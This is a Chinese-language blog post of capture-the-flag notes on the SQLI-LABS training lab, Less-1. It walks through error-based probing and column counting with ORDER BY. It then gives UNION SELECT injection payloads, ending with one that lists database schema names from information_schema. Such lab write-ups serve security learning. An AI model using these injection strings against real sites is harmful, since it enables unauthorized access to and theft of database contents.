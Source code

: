 ```yaml
---
layout: post
title: "SQLI-LABS 闯关笔记"
date: 2019-4-13 20:49:43
author: co0ontty
categories: CTF WEB MYSQL ALL
tags: CTF WEB MYSQL ALL 
describe: SQLI-LABS 闯关笔记 
---
```

## Less-1
```php
?id=1'
```
报错：  
```php
 near ''1'' LIMIT 0,1' at line 1
```
推断查询语句为：  
```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```
构造注入语句：
用单引号闭合id='的前单引号
用--+ 闭合id=''的后单引号
```php
?id=1'order by 1 --+ 
$sql="SELECT * FROM users WHERE id='1'order by 1 --+ ' LIMIT 0,1";
```
查看有多少字段，当输入到4的时候报错，说明存在3个字段  
```php
?id=1'order by 4 --+
```
联合查询union 
```php
?id=1' union select 1,2,3 --+
```
正常显示，猜测函数mysql_fetch_array只被调用了一次，而mysql_fetch_array() 函数从结果集中取得一行作为关联数组，即只显示一行数据。  
那么我们只要让第一行查询的结果是空集（即union左边的select子句查询结果为空），那么我们union右边的查询结果自然就成为了第一行，就打印在网页上了，这个id他一般传的是数字，而且一般都是从1开始自增的，我们可以把id值设为非正数（负数或0），浮点数，字符型或字符串，即设置为数据库中查询不到的id值。
```php
?id=-1' union select 1,2,3 --+
```
查询数据库:  
```php
?id=e' union select 1,2, (select group_concat(schema_name) from information_schema.schemata) -- +
```  
